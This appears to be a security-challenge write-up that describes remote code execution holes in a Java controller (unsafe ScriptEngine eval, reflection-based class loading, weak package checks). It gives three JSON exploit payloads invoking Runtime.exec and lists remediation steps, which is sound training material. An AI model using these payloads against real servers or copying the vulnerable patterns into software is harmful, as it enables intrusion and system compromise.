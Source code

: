 # Challenge 32: Multi-Vector Code Execution via Expression Evaluation

## Vulnerability
This application has multiple code execution vulnerabilities hidden behind seemingly legitimate functionality. The main issues are unsafe use of ScriptEngine for expression evaluation and unrestricted reflection.

## Locations and Issues

### 1. JavaScript Engine Code Execution
`DataProcessorController.java` lines 153-162 and 165-174:
```java
javax.script.ScriptEngine engine = manager.getEngineByName("JavaScript");
engine.put("target", target);
return engine.eval(expression);
```

### 2. Reflection-based Class Loading
`DataProcessorController.java` lines 124-136:
```java
String className = "com.custom.operations." + operation...
Class<?> operationClass = Class.forName(className);
```

### 3. Unrestricted Reflection with Insufficient Validation
`DataProcessorController.java` lines 143-150:
```java
if (!className.startsWith("java.lang") && !className.startsWith("java.util")) {
    throw new SecurityException("Unauthorized class access");
}
```

## Impact
- Remote Code Execution through JavaScript engine
- Arbitrary class instantiation and method invocation
- Information disclosure through reflection
- Potential system compromise

## Why It's Hard to Detect
- The security patterns block obvious malicious keywords
- Class validation appears to restrict to safe packages
- Expression evaluation looks like legitimate business logic
- Multiple attack vectors create complexity for static analysis
- The vulnerability requires understanding the interaction between components

## Exploitations

### Vector 1: JavaScript Engine RCE
POST to `/api/process`:
```json
{
  "operation": "transform",
  "data": {
    "expression": "java.lang.Runtime.getRuntime().exec('whoami')",
    "target": "test"
  }
}
```

### Vector 2: Reflection bypass
POST to `/api/process`:
```json
{
  "operation": "customOp",
  "data": {
    "className": "java.lang.Runtime",
    "methodName": "getRuntime"
  }
}
```

### Vector 3: Formula evaluation RCE
POST to `/api/process`:
```json
{
  "operation": "calculate",
  "data": {
    "formula": "java.lang.Runtime.getRuntime().exec('id')"
  }
}
```

## Remediation
1. Remove or severely restrict ScriptEngine usage
2. Implement proper sandboxing for expression evaluation
3. Use whitelisting instead of blacklisting for class access
4. Avoid dynamic class loading based on user input
5. Use safe mathematical expression evaluators
6. Implement proper input validation and sanitization
